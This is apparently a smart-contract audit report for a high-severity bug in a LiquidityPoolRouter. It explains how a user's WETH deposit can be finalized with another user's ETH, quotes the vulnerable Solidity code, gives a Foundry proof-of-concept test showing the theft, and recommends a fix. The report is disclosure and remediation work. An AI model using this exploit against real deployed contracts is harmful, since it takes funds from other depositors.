 # [H-1] - User can steal someone else's ETH to finalize his WETH deposit

## Finding Description

A user1 who tries to deposit `WETH` into the `WETH` pool will get his tokens locked in the `LiquidityPoolRouter` contract. The user1 can later steal another user2's `ETH` deposit and finalize his deposit using someone else's `ETH`.

## Impact Explanation

A user1 has the ability to call the `deposit` function in the `LiquidityPoolRouter` contract with the `WETH` token as parameter:

```js
function deposit(address token, uint256 amount) external payable nonReentrant whenNotPaused {
        address liquidityPool = _getLiquidityPoolOrRevert(token);

        _validateFinalizationIncentivePayment();

        uint256 depositFee = (amount * DEPOSIT_FEE_BASIS_POINTS) / 10_000;
        amount -= depositFee;

        _validateDepositAmount(liquidityPool, amount);

        if (deposits[msg.sender].amount != 0) {
            revert LiquidityPoolRouter__OngoingDeposit();
        }

        TRANSFER_MANAGER.transferERC20(token, msg.sender, address(this), amount);
        TRANSFER_MANAGER.transferERC20(token, msg.sender, owner, depositFee);

        uint256 expectedShares = ERC4626(liquidityPool).previewDeposit(amount);

        deposits[msg.sender] =
            Deposit(liquidityPool, amount, expectedShares, block.timestamp, finalizationParams.finalizationIncentive);
        pendingDeposits[liquidityPool] += amount;

        emit LiquidityPoolRouter__DepositInitialized(
            msg.sender, liquidityPool, amount + depositFee, expectedShares, finalizationParams.finalizationIncentive
        );
    }
```

During this function, user's `WETH` tokens are transfered from him to the `LiquidityPoolRouter` contract. Later, the `finalizeDeposit` function can't be completed because by protocol design, a user should be able to deposit in the `WETH` pool only by sending `ETH` to the `LiquidityPoolRouter` contract. In the `finalizeDeposit` function, when depositing to the `WETH` pool, the contract attempts to send `ETH` which it doesn't have, because the user1 deposited `WETH`. Unless, if another user2 comes in a later time who wants to deposit `ETH` , which user1 can use to finalize his deposit:

```js
    function finalizeDeposit(address depositor) external nonReentrant {
        uint256 amount = deposits[depositor].amount;
        if (amount == 0) {
            revert LiquidityPoolRouter__NoOngoingDeposit();
        }

        uint256 initializedAt = deposits[depositor].initializedAt;
        _validateTimelockIsOver(initializedAt);
        _validateFinalizationIsOpenForAll(depositor, initializedAt);

        address payable liquidityPool = payable(deposits[depositor].liquidityPool);
        address token = ERC4626(liquidityPool).asset();
        uint256 expectedShares = deposits[depositor].expectedShares;
        uint256 actualShares = ERC4626(liquidityPool).previewDeposit(amount);
        uint256 incentive = deposits[depositor].finalizationIncentive;

        deposits[depositor] = Deposit(address(0), 0, 0, 0, 0);
        pendingDeposits[liquidityPool] -= amount;

        _transferETHAndWrapIfFailWithGasLimit(WETH, msg.sender, incentive, 2_300);

        uint256 sharesMinted;
        uint256 amountRequired;
        if (expectedShares >= actualShares) {
            amountRequired = amount;
@>          sharesMinted = _deposit(token, liquidityPool, amountRequired, depositor);
        } else {
            amountRequired = ERC4626(liquidityPool).previewMint(expectedShares);
@>          sharesMinted = _deposit(token, liquidityPool, amountRequired, depositor);
            if (token == WETH) {
                _transferETHAndWrapIfFailWithGasLimit(WETH, liquidityPool, amount - amountRequired, gasleft());
            } else {
                _executeERC20DirectTransfer(token, liquidityPool, amount - amountRequired);
            }
        }

        emit LiquidityPoolRouter__DepositFinalized(msg.sender, depositor, liquidityPool, amountRequired, sharesMinted);
    }
```
```js
    function _deposit(address token, address liquidityPool, uint256 amount, address depositor)
        private
        returns (uint256 sharesMinted)
    {
@>      if (token == WETH) {
@>          IWETH(WETH).deposit{value: amount}();
        }
        IERC20(token).forceApprove(liquidityPool, amount);
        sharesMinted = LiquidityPool(liquidityPool).deposit(amount, depositor);
    }
```

## Proof of Concept

Paste the following code in `AttackPoC.t.sol` test file:

```js
    function test_attack_ProofOfConcept() public {
        vm.deal(user1, 20 ether);
        vm.deal(user2, 20 ether);

        vm.prank(user1);
        mockWETH.deposit{value: 10 ether}();

        // assert user1 has 10 WETH
        vm.assertEq(mockWETH.balanceOf(user1), 10 ether);

        // user1 initiates ERC20 deposit using WETH
        vm.startPrank(user1);
        _grantApprovals();
        mockWETH.approve(address(transferManager), 10 ether);
        liquidityPoolRouter.deposit{value: 0.0003 ether}(address(mockWETH), 10 ether);
        vm.stopPrank();

        vm.warp(block.timestamp + 10 seconds);

        // when user1 tries to finalizeDeposit it reverts
        vm.expectRevert();
        vm.prank(user1);
        liquidityPoolRouter.finalizeDeposit(user1);

        // user2 wants to deposit ETH
        vm.prank(user2);
        liquidityPoolRouter.depositETH{value: 15 ether + 0.0003 ether}(15 ether);

        // user1 steals his ETH and finalizes his deposit
        vm.prank(user1);
        liquidityPoolRouter.finalizeDeposit(user1);

        vm.warp(block.timestamp + 10 seconds);

        // user2 can't finalize his deposit
        vm.expectRevert();
        vm.prank(user2);
        liquidityPoolRouter.finalizeDeposit(user2);
    }
```

## Recommendation

Don't allow ERC20 deposits of the `WETH` token in `LiquidityPoolRouter`:

```diff
    /**
     * @notice First step of the 2 steps deposit process. Commit ERC-20 token into the pool
     *         and estimate the expected amount of shares to be minted.
     *
     * @param token The deposit token
     * @param amount The deposit amount
     */
    function deposit(address token, uint256 amount) external payable nonReentrant whenNotPaused {
+       if(token == WETH){
+           revert();
+       }

        address liquidityPool = _getLiquidityPoolOrRevert(token);

        _validateFinalizationIncentivePayment();
        .
        .
        .
```